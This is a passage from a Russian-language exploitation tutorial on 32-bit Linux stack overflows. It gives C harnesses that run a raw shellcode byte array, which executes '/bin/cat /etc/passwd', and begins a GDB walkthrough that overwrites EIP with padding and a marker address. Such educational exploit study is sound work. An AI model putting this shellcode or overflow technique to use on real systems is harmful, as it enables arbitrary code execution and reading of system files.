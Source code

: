 ```c
        (*ret) = (int)shellcode;
}
```

Логика работы проста:

1. объявление указателя на целое (переменная `ret`), который расположится в стековом фрейме `main` сразу после сохраненного значения EBP;
2. смещение на 8 байт относительно этой переменной для того, чтобы попасть на адрес возврата (`+2` переместит нас точно на 8 байт, т. к. мы имеем дело с типом «указатель», который занимает 4 байта);
3. перезапись адреса возврата (EIP) адресом нашего шелл-кода. Грубо говоря, происходит то же самое, что мы сделаем при эксплуатации переполнения — только здесь все «легально».

Альтернативной реализацией может стать также Си-шный код, в котором мы будем интерпретировать массив, содержащий шелл-код, как функцию, и просто «вызовем» ее.

```c
// Использование: gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o test_shellcode_v2 test_shellcode_v2.c && ./test_shellcode_v2

#include <stdio.h>
#include <string.h>

const unsigned char shellcode[] =
        "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"
        "\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80";

int main(int argc, char* argv[]) {
        printf("Shellcode size: %d\n\n", strlen((const char*)shellcode));

        void (*fp)(void);
        fp = (void*)shellcode;
        fp();
}
```

Используй, что нравится, а мы идем дальше.

## Полезная нагрузка до ESP

GDB позволяет использовать скриптовый функционал Python из интерактивного режима для облегчения процесса отладки, поэтому с помощью простой питоновской команды еще раз убедимся, что мы можем перезаписать значение EIP на что угодно.

Для этого командой `break` я поставлю точку останова на инструкцию ret (адрес `0x0804844d` — см. листинг ассемблера).

```
gdb-peda$ b *0x0804844d
```

После чего выполню программу, передав в качестве аргумента строку из 132 символов «A» (мусор, чтобы добраться до адреса возврата), конкатенированную со зловещим значением `0xd34dc0d3` («мертвый код»). Помня о little-endian я разворачиваю строку, содержащую адрес, с помощью питоновском механизма работы со срезами `[::-1]`.


[//]: # (2019-09-20)